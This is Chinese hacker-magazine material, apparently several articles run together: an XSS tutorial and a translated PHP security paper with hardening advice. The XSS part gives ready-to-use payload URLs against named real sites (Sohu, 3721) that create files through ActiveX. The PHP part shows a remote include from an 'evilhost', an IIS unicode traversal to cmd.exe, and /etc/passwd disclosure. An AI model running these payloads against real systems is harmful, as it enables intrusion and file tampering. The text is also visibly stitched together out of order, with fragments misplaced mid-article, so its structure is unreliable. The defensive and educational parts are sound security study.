my $advEditor = $cgi->param('advEditor') ? 1 : 0;
my $pmPopup = $cgi->param('pmPopup') ? 1 : 0;
my $hidden = $cgi->param('hidden') ? 1 : 0;
my $dispMode = $cgi->param('dispMode');
my $signature = $cgi->param('signature');
my $postsAge = $cgi->param('postsAge');    # （注意此处！！！）
my $editWidth = int($cgi->param('editWidth'));
my $editHeight = int($cgi->param('editHeight'));

# Quote strings（这里把一些变量加上了引号，看来这些变量是利用不了了）
```

编者按：上次的《跨站脚本执行漏洞》相信大家都看过了，应该对于这种攻击有个大概了解了吧。跨站脚本执行漏洞的广泛性，无论是搜狐，新浪，还是 263，都存在着大量这样的漏洞。这次的续篇可以让我们对该漏洞的了解更深一层。



### 跨站脚本执行漏洞（续）

**声明：** 本文出于教育目的，请不要利用本文的内容进行任何破坏，否则后果自负！

文 / analysis1st

本文主要是对上次《跨站脚本执行漏洞》文章的补充，内容不多，但是应该能够说明问题，消除一些人对跨站脚本执行漏洞的误解。好了，现在就开始！

```javascript
</script>
```

#### 只能执行 JavaScript 吗？

也许是由于上次的文章只是拿 JavaScript 作为例子，所以给大家造成了一种误解，以为跨站脚本执行漏洞只能执行 JavaScript，实际上任意客户端脚本都是可以利用的。

这次我们就以 ActiveX 为例说明一下。如果你访问下面的链接：

或者下面的链接：

```
http://page.search.sohu.com/cgi-bin/pagesearch.cgi?tn=sohu&sl=gl&word=<script>var+fso;fso=new+ActiveXObject('Scripting.FileSystemObject');fso.CreateTextFile('c:\\c4st.txt')</script>&ct=0&cl=2&lm=0
```

```
http://person.3721.com/search-list.htm?name=<script>var+fso;fso=new+ActiveXObject('Scripting.FileSystemObject');fso.CreateTextFile('c:\\c4st.txt')</script>
```

或者只是在 IE 地址栏简单的输入下面的内容：

```
<script>var+fso;fso=new+ActiveXObject('Scripting.FileSystemObject');fso.CreateTextFile('c:\\c4st.txt')</script>
```

然后回车，等一会，看到了什么（如图 1）？

- 工具 → Internet 选项 → 安全 → Intranet → 自定义级别

- Opera：
    - 文件 → 快速参数 → 允许使用 Java
    - 文件 → 快速参数 → 允许使用插件
    - 文件 → 快速参数 → 允许使用 JavaScript

## 【常见问题】

- **Q：跨站脚本执行漏洞在哪里存在？**
  A：只要是 CGI 程序，只要允许用户输入，就可能存在跨站脚本执行漏洞。

- **Q：跨站脚本执行漏洞是不是只能偷别人的 Cookie？**
  A：当然不是！HTML 代码能做的，跨站脚本执行漏洞基本都能做。

## 【附录】

下面是一些跨站脚本执行漏洞的例子：

- http://v7.51.net/exploites/exgb.txt
- http://v7.51.net/exploites/ichat2.txt
- http://v7.51.net/exploites/bbs2www.txt
- http://v7.51.net/exploites/5460II.txt
- http://v7.51.net/exploites/sf.txt
- http://v7.51.net/exploites/phpmyadmin.txt



哈哈……好像我们提供的 ActiveX 代码就要执行了。当然，这还需要用户的配合，用鼠标轻轻点击“是”，看看你的 C 盘根目录，是不是建立了一个新文件“c4st.txt”？同理，我们也可以用它来读写、修改甚至删除硬盘上的任意文件。

除此之外，我们提供的 ActiveX 代码是否能够执行，还和你的 IE 安全设置相关（这里不考虑利用 IE 的漏洞绕过安全设置）。我们上面的实验是基于以下的安全设置的，如图 2 所示。



不过，这种情况并不少见，比如播放 Flash 下载 shockwave 插件时，也是要弹出一个类似的警告框的，而很多情况下我们都是选择“是”，因此还是很有利用价值的。

这里还需要介绍一下网络实名的概念，下面的内容摘自 http://www.3721.com，更多信息可访问网站。

### 什么是网络实名?

网络实名是新一代的网络访问技术。它帮助客户用户现实世界中企业、产品、商标等的名字，通过浏览器、搜索引擎、各地信息港等各种途径都能简单快速地找到企业、产品信息，无须使用复杂的域名、网址，也不必在搜索引擎成千上万的结果中反复查找。

### 网络实名有什么功能?

- 1. 代替网址，在地址栏输入网络实名便可准确直达企业网站。
- 2. 在中国各大门户网站的搜索引擎中脱颖而出。
- 3. 中国电信各地近 200 家信息港、热线网站都采用了实名技术，在搜索框中查找企业、产品时，拥有实名的企业将被方便地找到。

目前支持网络实名的搜索引擎包括新浪、搜狐、网易、263、FM365、163 电子邮局、Tom、21CN、lycos 中国和中国电信近 200 家信息港等。

奇怪的是，我在开启和关闭网络实名的情况下都得到相同的结果，谁能为我解释一下？我对这些真的不是很明白！！

还有，要想利用跨站脚本执行漏洞执行 ActiveX，除了上面所讲的问题外，由于 ActiveX 代码本身一般比较长，而且需要包含空格，所以可利用的机会就相对来说少一些。

如果利用得好，这并不比缓冲区溢出危害小，而且这种攻击很具艺术性，恐怕只有尝试过的人才能感感觉得到。

## 如何突破 PHP 的保护模式?

不要误会，这里所谓保护模式指 PHP 自动为“'”“"”和“\”进行转义（当然这依赖于 php.ini 的配置）。这种保护模式往往为跨站脚本执行漏洞攻击带来了很多的麻烦，因为没有这几个特殊的字符，我们能做的实在太少了。例如，我想将页面重定向到我的主页，脚本部分为 `window.location.href="http://v7.51.net"`，而如果没有“"”和“:”的话，脚本是不能成功运行的。

有没有想过突破这种保护模式，振兴跨站脚本执行漏洞攻击？相信大家都会这么想！！下面我就演示几种方法：

### 1. 自己制造条件

我们以 http://fetag.dhs.org 为例，希望 CoolFire 不要介意！！：P

### 如何对 PHP 程序中的常见漏洞进行攻击

编者按：目前构建在 PHP 技术上的网站网页越来越多，而相对而言，比较全面地介绍 PHP 安全问题的文章及书籍不是很多，本文正是一篇关于 PHP 安全问题较为详实的译作，主要从全局变量，远程文件，文件上传，库文件，Session 文件，数据类型和容易出错的函数这几个方面分析了 PHP 的安全性，并对如何增强其安全性提出很好的建议，因篇幅所限省略了有关 PHP 基础知识部分，故很适合关注 PHP 安全问题且具相关基础的读者参考借鉴。

之所以翻译这篇文章，是因为目前关于 CGI 安全性的文章都是拿 Perl 作为例子，而专门介绍 ASP，PHP 或者 JSP 安全性的文章则很少。Shaun Clowes 的这篇文章比较全面地介绍了 PHP 的安全问题，原文可在 http://www.securereality.com.au/studyinscarlet.txt 找到。

文章主要从全局变量，远程文件，文件上传，库文件，Session 文件，数据类型和容易出错的函数这几个方面分析了 PHP 的安全性，并且对如何增强 PHP 的安全性提出了一些有用的建议。

#### 全局变量

PHP 中的变量不需要事先声明，它们会在第一次使用时自动创建，它们的类型也不需要指定，它们会根据上下文环境自动确定。从程序员的角度来看，这无疑是一种极其方便的处理方法。很显然，这也是快速开发语言的一个很有用的特点。一旦一个变量被创建了，就可以在程序中的任何地方使用。这个特点导致的结果就是程序员很少初始化变量，毕竟，当它们第一次创建时，他们是空的。

我们可以构造下面的链接弹出“123”：

```
http://fetag.dhs.org?INC=<script>alert(123)</script>
```

但是却无法通过下面的链接弹出“abc”：

```
http://fetag.dhs.org?INC=<script>alert(abc)</script>
http://fetag.dhs.org?INC=<script>alert('abc')</script>
http://fetag.dhs.org?INC=<script>alert("abc")</script>
```

怎么办？一般人遇到这个问题可能就会放弃，但是其实还是有办法的，你得深刻理解跨站脚本执行漏洞的含义，还得对 JavaScript 这种面向对象的脚本语言有一定理解。

试试下面的链接？

```
http://fetag.dhs.org/?INC=<form name=abc><input type=text name=xyz value=abc><script>alert(document.abc.xyz.value)</script>
```

这种攻击适合于对用户提交数据长度没有限制或限制长度比较长的情况。

### 2. 利用已有条件

也就是说我们自己不构造数据，而是利用页面上已有的元素，但是要求你要利用的元素在页面所处的位置在你的脚本代码之前。例如：

```
http://fetag.dhs.org/?INC=<script>alert(document.forms[0].elements[0].value)</script>
```

不要觉得没有什么用，在多步提交的 CGI 脚本中，利用起来可是很不错的！

当然，也可以对已有数据进行一些必要的处理，这全看实际需要了。

这种攻击适用于对用户提交数据长度进行限制的情况。

### 3. 综合利用

自己构造一部分，利用一部分，不用我说了吧？

现在是不是感觉对付 PHP 的跨站脚本执行漏洞容易多了？

很显然，基于 PHP 的应用程序的主函数一般都是接受用户的输入（主要是表单变量，上传文件和 Cookie 等），然后对输入数据进行处理，然后把结果返回到客户端浏览器。为了使 PHP 代码访问用户的输入尽可能容易，实际上 PHP 是把这些输入数据看作全局变量来处理的。例如：

```html
<FORM METHOD="GET" ACTION="test.php">
<INPUT TYPE="TEXT" NAME="hello">
<INPUT TYPE="SUBMIT">
</FORM>
```

很显然，这会显示一个文本框和提交按钮。当用户点击提交按钮时，“test.php”会处理用户的输入，当“test.php”运行时，“$hello”会包含用户在文本框输入的数据。从这里我们应该看出，攻击者可以按照自己的意愿创建任意的全局变量。如果攻击者不是通过表单输入来调用“test.php”，而是直接在浏览器地址栏输入 `http://server/test.php?hello=hi&setup=no`，那么，不止是“$hello”被创建，“$setup”也被创建了。

译者注：这两种方法也就是我们通常说的“POST”和“GET”方法。

下面的用户认证代码暴露了 PHP 的全局变量所导致的安全问题：

```php
<?php
if ($pass == "hello")
    $auth = 1;

if ($auth == 1)
    echo "some important information";
?>
```

上面的代码首先检查用户的密码是否为“hello”，如果匹配的话，设置“$auth”为“1”，即通过认证。之后如果“$auth”为“1”的话，就会显示一些重要信息。

表面看起来是正确的，而且我们中有相当一部分人是这样做的，但是这段代码犯了想当然的错误，它假定“$auth”在没有设置值的时候是空的，却没有想到攻击者可以创建任何全局变量并赋值，通过类似“http://server/test.php?auth=1”的方法， we 完全可以欺骗这段代码，使它相信我们是已经认证过的。

因此，为了提高 PHP 程序的安全性，我们不能相信任何没有明确定义的变量。如果程序中的变量很多的话，这可是一项非常艰巨的任务。

一种常用的保护方式就是检查数组 HTTP_GET 或 POST_VARS 中的变量，这依赖于我们的提交方式（GET 或 POST）。当 PHP 配置为打开“track_vars”选项的话（这是缺省值），用户提交的变量就可以在全局变量和上面提到的数组中获得。

但是值得说明的是， PHP 有四个不同的数组变量用来处理用户的输入。HTTP_GET_VARS 数组用来处理 GET 方式提交的变量；HTTP_POST_VARS 数组用于处理 POST 方式提交的变量；HTTP_COOKIE_VARS 数组用于处理作为 cookie 头提交的变量，而对于 HTTP_POST_FILES 数组（比较新的 PHP 才提供），则完全是用户用来提交变量的一种可选方式。用户的一个请求可以很容易地把变量存在这四个数组中，因此一个安全的 PHP 程序应该检查这四个数组。

### 【远程文件】

PHP 是一种具有丰富特性的语言，提供了大量的函数，使编程者实现某个功能很容易。但是从安全的角度来看，功能越多，要保证它的安全性就越难，远程文件就是说明这个问题的一个很好的例子：

```php
<?php
if (!($fd = fopen("$filename", "r")))
    echo("Could not open file: $filename<BR>\n");
?>
```

上面的脚本试图打开文件“$filename”，如果失败就显示错误信息。很明显，如果我们能够指定“$filename”的话，就能利用这个脚本浏览系统中的任何文件。但是，这个脚本还存在一个不太明显的特性，那就是它可以从任何其它 Web 或 FTP 站点读取文件。实际上， PHP 的大多数文件处理函数对远程文件的处理是透明的。

例如：如果指定“$filename”为“`http://target/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir`”则上面的代码实际上是利用主机 target 上的 unicode 漏洞，执行了 dir 命令。

这使得支持远程文件的 `include()`、`require()`、`include_once()` 和 `require_once()` 在上下文环境中变得更有趣。这些函数主要功能是包含指定文件的内容，并且把它们按照 PHP 代码解释，主要是用在库文件上。

例如：

```php
<?php
include("$libdir" . "/languages.php")
?>
```

上例中“$libdir”一般是一个在执行代码前已经设置好的路径，如果攻击者能够使得“$libdir”没有被设置的话，那么他就可以改变这个路径。但是攻击者并不能做任何事情，因为他们只能在他们指定的路径中访问文件 languages.php（perl 中的 “Poison null byte” 攻击对 PHP 没有作用）。但是由于有了对远程文件的支持，攻击者就可以做任何事情。例如，攻击者可以在某台服务器上放一个文件 languages.php，包含如下内容：

```php
<?php
passthru("/bin/ls /etc")
?>
```

然后把“$libdir”设置为“`http://<evilhost>/`”，这样我们就可以在目标主机上执行上面的攻击代码，“/etc”目录的内容作为结果返回到客户的浏览器中。

需要注意的是，攻击服务器（也就是 evilhost）应该不能执行 PHP 代码，否则攻击代码会在攻击服务器，而不是目标服务器上执行，如果你想了解具体的技术细节，请参考：http://www.securereality.com.au/sradv0006.txt

### 【文件上传】

PHP 自动支持基于 RFC 1867 的文件上传，我们看下面的例子：

```html
<FORM METHOD="POST" ENCTYPE="multipart/form-data">
<INPUT TYPE="FILE" NAME="hello">
<INPUT TYPE="HIDDEN" NAME="MAX_FILE_SIZE" VALUE="10240">
<INPUT TYPE="SUBMIT">
</FORM>
```

上面的代码让用户从本地机器选择一个文件，当点击提交后，文件就会被上传到服务器。这显然是很有用的功能，但是 PHP 的响应方式使这项功能变的不安全。当 PHP 第一次接到这种请求，甚至在它开始解析被调用的 PHP 代码之前，它会先接受远程用户的文件，检查文件的长度是否超过“$MAX_FILE_SIZE variable”定义的值，如果通过这些测试的话，文件就会被存在本地的一个临时目录中。

因此，攻击者可以发送任意文件给运行 PHP 的主机，在 PHP 程序还没有决定是否接受文件上传时，文件已经被存在服务器上了。

这里我就不讨论利用文件上传来对服务器进行 DOS 攻击的可能性了。

让我们考虑一下处理文件上传的 PHP 程序，正如我们上面说的，文件被接收并且存在服务器上（位置是在配置文件中指定的，一般是 /tmp），扩展名一般是随机的，类似 “phpxXuoXG” 的形式。PHP 程序需要上传文件的信息以便处理它，这可以通过两种方式，一种方式是在 PHP 3 中已经使用的，另一种是在我们对以前的方法提出安全公告后引入的。

但是，我们可以肯定地说，问题还是存在的，大多数 PHP 程序还是使用老的方式来处理上传文件。PHP 设置了四个全局变量来描述上传文件，比如说上面的例子：

| 变量名 | 说明 |
| :--- | :--- |
| $hello | Filename on local machine (e.g. /tmp/phpxXuoXG) |
| $hello_size | Size in bytes of file (e.g. 1024) |
| $hello_name | The original name of the file on the remote system (e.g. \\\\temp\\\\hello.txt) |
| $hello_type | Mime type of uploaded file (e.g. text/plain) |

然后 PHP 程序开始处理根据“$hello”指定的文件，问题在于“$hello”不一定是一个 PHP 设置的变量，任何远程用户都可以指定它。如果我们使用下面的方式：

```url
http://vulnhost/vuln.php?hello=/etc/passwd&hello_size=10240&hello_type=text/plain&hello_name=hello.txt
```

```php
$hello = "/etc/passwd";
$hello_size = 10240;
$hello_type = "text/plain";
$hello_name = "hello.txt";
```

就导致了下面的 PHP 全局变量（当然 POST 方式也可以（甚至是 Cookie））：

上面的表单数据正好满足了 PHP 程序所期望的变量，但是这时 PHP 程序不再处理上传的文件，而是处理“/etc/passwd”（通常会导致内容暴露）。这种攻击可以用于暴露任何敏感文件的内容。

在前面已经说了，新版本的 PHP 使用 `HTTP_POST_FILES` 来决定上载文件，同时也提供了很多函数来解决这个问题，例如有一个函数用来判断某个文件是不是实际上传的文件。这些函数很好地解决了这个问题，但是实际上肯定有很多 PHP 程序仍然使用旧的方法，很容易受到这种攻击。

作为文件上载的攻击方法的一个变种，我们看一下下面的一段代码：

```php
<?php
    if (file_exists($theme)) // Checks the file exists on the local system (no remote files)
        include("$theme");
?>
```

如果攻击者可以控制“$theme”的话，很显然它可以利用“$theme”来读取远程系统上的任何文件。攻击者的最终目标是在远程服务器上执行任意指令，但是他无法使用远程文件，因此，他必须得在远程服务器上创建一个 PHP 文件。这个看起来好像是不可能的，但是文件上载帮了我们这个忙。如果攻击者先在本地机器上创建一个包含 PHP 代码的文件，然后创建一个包含名为“theme”的文件域的表单，最后用这个表单通过文件上载把创建的包含 PHP 代码的文件提交给上面的代码，PHP 就会把攻击者提交的文件保存起来，并把“$theme”的值设置为攻击者提交的文件，这样 `file_exists()` 函数会检查通过，攻击者的代码也将执行。

获得执行任意指令的能力之后，攻击者显然想提升权限或者是扩大成果，而这又需要一些服务器上没有的工具集，而文件上载又一次帮了我们这个忙。攻击者可以使用文件上载功能上载工具，把它们存在服务器上，然后利用他们执行指令的能力，使用 `chmod` 改变文件的权限，然后执行。例如：攻击者可以绕过防火墙或 IDS 上载一个本地 root 攻击程序，然后执行，这样就获得了 root 权限。

### 库文件

正如我们前面讨论的那样，`include()` 和 `require()` 主要是为了支持代码库，因为我们一般是把一些经常使用的函数放到一个独立的文件中，这个独立的文件就是代码库，当需要使用其中的函数时，我们只要把这个代码库包含到当前的文件中就可以了。

最初，人们开发和发布 PHP 程序的时候，为了区别代码库和主程序代码，一般是为代码库文件设置一个“.inc”的扩展名，但是他们很快发现这是一个错误，因为这样的文件无法被 PHP 解释器正确解析为 PHP 代码。如果我们直接请求服务器上的这种文件时，我们就会得到该文件的源代码，这是因为当把 PHP 作为 Apache 的模块使用时，PHP 解释器是根据文件的扩展名来决定是否解析为 PHP 代码的。扩展名是站点管理员指定的，一般是“.php”，“.php3”和“.php4”。

如果重要的配置数据被包含在没有合适的扩展名的 PHP 文件中，那么远程攻击者很容易得到这些信息。

最简单的解决方法就是给每个文件都指定一个 PHP 文件的扩展名，这样可以很好的防止泄露源代码的问题，但是又产生了新的问题，通过请求这个文件，攻击者可能使本该在上下文环境中运行的代码独立运行，这可能导致前面讨论的全部攻击。

下面是一个很明显的例子：

```php
// in_main.php:
<?php
    $libDir = "/libdir";
    $langDir = "$libdir/languages";

    include("$libdir/loadlanguage.php");
?>

// In libdir/loadlanguage.php:
<?php
    include("$langDir/$userLang");
?>
```

当 “libdir/loadlanguage.php” 被 “main.php” 调用时是相当安全的，但是因为 “libdir/loadlanguage” 具有 “.php” 的扩展名，因此远程攻击者可以直接请求这个文件，并且可以任意指定 “$langDir” 和 “$userLang” 的值。

### Session 文件

PHP 4 或更新的版本提供了对 sessions 的支持，它的主要作用是在 PHP 程序中保存页与页之间的状态信息。例如，当一个用户登录进入网站，他登录了这个事实以及谁登录进入这个网站都被保存在 session 中，当他在网站中到处浏览时，所有的 PHP 代码都可以获得这些状态信息。

事实上，当一个 session 启动时（实际上是在配置文件中设置为在第一次请求时自动启动），就会生成一个随机的 “session id”，如果远程浏览器总是在发送请求时提交这个 “session id” 的话，session 就会一直保持。这通过 Cookie 很容易实现，也可以通过在每页提交一个表单变量（包含 “session id”）来实现。PHP 程序可以用 session 注册一个特殊的变量；它的值会在每个 PHP 脚本结束后存在 session 文件中，也会在每个 PHP 脚本开始前加载到变量中。下面是一个简单的例子：

```php
<?php
session_destroy();   // Kill any data currently in the session

$session_auth = "shaun";
session_register("session_auth");   // Register session_auth as a session variable
?>
```

新版本的 PHP 都会自动把 “$session_auth” 的值设置为 “shaun”，如果它们被修改的话，以后的脚本都会自动接受修改后的值，这对无状态的 Web 来说的确是种很不错的工具，但是我们也应该小心。

一个很明显的问题就是确保变量的确来自 session，例如，给定上面的代码，如果后续的脚本是下面这样的话：

```php
<?php
if (!empty($session_auth))
    // Grant access to site here
?>
```

上面的代码假定如果 “$session_auth” 被置位的话，就是从 session，而不是从用户输入来置位的，如果攻击者通过表单输入来置位的话，他就可以获得对站点的访问权。注意攻击者必须在 session 注册该变量之前使用这种攻击方法，一旦变量被放进了 session，就会覆盖任何表单输入。

Session 数据一般是保存在文件中（位置是可配置的，一般是 “/tmp”），文件名一般是类似 “sess_<session id>” 的形式，这个文件包含变量名称，变量类型，变量值和一些其它的数据。在多主机系统中，因为文件是以运行 Web 服务器的用户身份（一般是 nobody）保存的，因此恶意的站点拥有者就可以通过创建一个 session 文件来获得对其它站点的访问，甚至可以检查 session 文件中的敏感信息。

Session 机制也为攻击者把自己的输入保存在远程系统的文件中提供了另一个方便的地方，对于上面的例子来说，攻击者需要在远程系统放置一个包含 PHP 代码的文件，如果不能利用文件上传做到的话，他通常会利用 session 为一个变量按照自己的意思赋一个值，然后猜测 session 文件的位置，而他知道文件名是 “sess_<session id>”，所以只需猜测目录，而且目录一般就是 “/tmp”。

另外，攻击者可以任意指定 “session id”（例如 “hello”），然后用这个 “session id” 创建一个 session 文件（例如 “/tmp/sess_hello”），但是 “session id” 只能是字母和数字组合。

### 数据类型

PHP 具有比较松散的数据类型，变量的类型依赖于它们所处的上下文环境。例如：“$hello” 开始是字符串变量，值为 “”，但是在求值时，就变成了整形变量 “0”，这有时可能会导致一些意想不到的结果。如果 “$hello” 的值为 “000” 还是为 “0” 是不同的，`empty()` 返回的结果也不会为真。

PHP 中的数组是关联数组，也就是说，数组的索引是字符串型的。这意味着 `$hello['000']` 和 `$hello[0]` 也是不同的。

开发程序的时候应该仔细地考虑上面的问题，例如，我们不应该在一个地方测试某个变量是否为 “0”，而在另外的地方使用 `empty` 来验证。

### 容易出错的函数

我们在分析 PHP 程序中的漏洞时，如果能够拿到源代码的话，那么一份容易出错的函数列表则是我们非常需要的。如果我们能够远程改变这些函数的参数的话，那么我们就很可能发现其中的漏洞。下面是一份比较详细的容易出错的函数列表：

| 类别 | 函数 | 说明 |
| :--- | :--- | :--- |
| **PHP代码执行** | `require()` | 读取指定文件的内容并且作为 PHP 代码解释 |
| | `include()` | 同上 |
| | `eval()` | 把给定的字符串作为 PHP 代码执行 |
| | `preg_replace()` | 当与 “/e” 开关一起使用时，替换字符串将被解释为 PHP 代码 |
| **命令执行** | `exec()` | 执行指定的命令，返回执行结果的最后一行 |
| | `passthru()` | 执行指定命令，返回所有结果到客户端浏览器 |
| | `` ` `` (反引号) | 执行指定命令，返回所有结果到一个数组 |
| | `system()` | 同 `passthru()`，但是不处理二进制数据 |
| | `popen()` | 执行指定的命令，把输入或输出连接到 PHP 文件描述符 |
| **文件泄露** | `fopen()` | 打开文件，并对应一个 PHP 文件描述符 |
| | `readfile()` | 读取文件的内容，然后输出到客户端浏览器 |
| | `file()` | 把整个文件内容读到一个数组中 |

> 译者注：其实这份列表还不是很全，比如 “mail()” 等命令也可能执行命令，所以需要自己补充一下。

### 如何增强 PHP 的安全性

我在上面介绍的所有攻击对于缺省安装的 PHP 4 都可以很好地实现，但是我已经重复了很多次，PHP 的配置非常灵活，通过配置一些 PHP 选项，我们完全可能抵抗其中的一些攻击。下面我按照实现的难度对一些配置进行了分类：

- `*` 低难度
- `**` 中低难度
- `***` 中高难度
- `****` 高难度

上面的分类只是个人的看法，但是我可以保证，如果你使用了 PHP 提供的所有选项的话，那么你的 PHP 将是很安全的，即使是第三方的代码也是如此，因为其中很多功能已经不能使用。

### 1. 设置 “register_globals” 为 “off” (难度：****)
这个选项会禁止 PHP 为用户输入创建全局变量，也就是说，如果用户提交表单变量 “hello”，PHP 不会创建 “$hello”，而只会创建 “HTTP_GET/POST_VARS['hello']”。这是 PHP 中一个极其重要的选项，关闭这个选项，会给编程带来很大的不便。

### 2. 设置 “safe_mode” 为 “on” (难度：***)
打开这个选项，会增加如下限制：
1. 限制哪个命令可以被执行；
2. 限制哪个函数可以被使用；
3. 基于脚本所有权和目标文件所有权的文件访问限制；
4. 禁止文件上传功能。
这对于 ISP 来说是一个伟大的选项，同时它也能极大地改进 PHP 的安全性。

### 3. 设置 “open_basedir” (难度：**)
这个选项可以禁止指定目录之外的文件操作，有效地消除了本地文件或者是远程文件被 include 的攻击，但是仍需要注意文件上传和 session 文件的攻击。

### 4. 设置 “display_errors” 为 “off”，设置 “log_errors” 为 “on” (难度：**)
这个选项禁止把错误信息显示在网页中，而是记录到日志文件中，这可以有效地抵制攻击者对目标脚本中函数的探测。

### 5. 设置 “allow_url_fopen” 为 “off” (难度：*)
这个选项可以禁止远程文件功能，极力推荐！

如果想了解其它的相关信息，请参考原文：http://www.securereality.com.au/studyinscarlet.txt。

---

现在，网上的论坛越来越花哨，功能越来越强大，和以前那些只能看看贴、发发回复的论坛真是相去万里。然而，对于众多功能云集一身的新型论坛来说，安全问题也随之而来了。目前的论坛有很多种类，其中有一类就是用 PHP 编写的论坛。我们曾经在黑客防线杂志中刊发过动网论坛的安全性文章，而本文作者为大家分析了 PHP 编写论坛导致的安全问题以及解决方法，相信会给对 PHP 编程有兴趣的读者提供一些思路。

### 导致 PHP 程序安全问题的错误案例
**文 / shocker**

经过一段时间的编程与学习，明白了不少关于 PHP 安全编程的问题，analysisist 曾经告诉我说学习 + 实践 + 总结 = 提高。所以我要把这段学习和实践总结一下。以前一直看安全编程的文章，虽然编写程序的时候会注意到安全问题，但是编写完成后，还是会出现错误。然而，经过实践得来的经验要比从文章中得来的牢固。在此，我就结合以前编写过的一些程序中的错误，来说说 PHP 编程中常见的安全问题，给 PHP 的初级编写者们一个提示。

### 一、概述
